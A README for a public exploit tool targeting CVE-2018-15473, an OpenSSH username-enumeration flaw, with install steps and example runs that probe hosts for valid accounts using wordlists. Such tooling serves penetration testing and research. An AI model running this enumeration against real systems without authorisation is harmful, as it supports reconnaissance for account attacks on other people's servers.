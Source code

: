 CVE-2018-15473
---
OpenSSH through 7.7 is prone to a user enumeration vulnerability due to not delaying bailout for an
invalid authenticating user until after the packet containing the request has been fully parsed, related to
auth2-gss.c, auth2-hostbased.c, and auth2-pubkey.c.

Install 
---
You may need to install your distro's equivalent `openssl-dev` package
```bash
# NOTE: if you're installing on kali, you can skip the pip install; paramiko is already there.  

git clone https://gitlab.com/epi052/cve-2018-15473.git
cd cve-2018-15473
pip install -r requirements.txt 
# - OR - 
pipenv install -r requirements.txt  # if you're cool like that   
chmod u+x ssh-username-enum.py
```

Examples
---
A single username 
```bash
(cve-2018-15473)─> ./ssh-username-enum.py -u epi 192.168.1.2
[+] epi found!
```

Use a wordlist with 10 threads (the default is 4)
```bash
(cve-2018-15473)─> ./ssh-username-enum.py -t 10 -w /usr/share/metasploit-framework/data/wordlists/unix_users.txt 192.168.1.2
[+] avahi found!
[+] avahi-autoipd found!
[+] backup found!
[+] daemon found!
[+] bin found!
------8<------
```

IPv6 Address on port 2222 and INCREASED VERBOSITY! 
```bash
(cve-2018-15473)─> ./ssh-username-enum.py -6 -p 2222 -v -w /usr/share/metasploit-framework/data/wordlists/unix_users.txt '::1'
[-] 4Dgifts not found
[-] demo not found
[-] checkfs not found
[-] anon not found
[-] EZsetup not found
[-] auditor not found
[-] demos not found
[-] OutOfBox not found
[-] checkfsys not found
[+] avahi found!
[-] diag not found
[-] ROOT not found
[-] checksys not found
[-] cmwlogin not found
[+] avahi-autoipd found!
------8<------
```
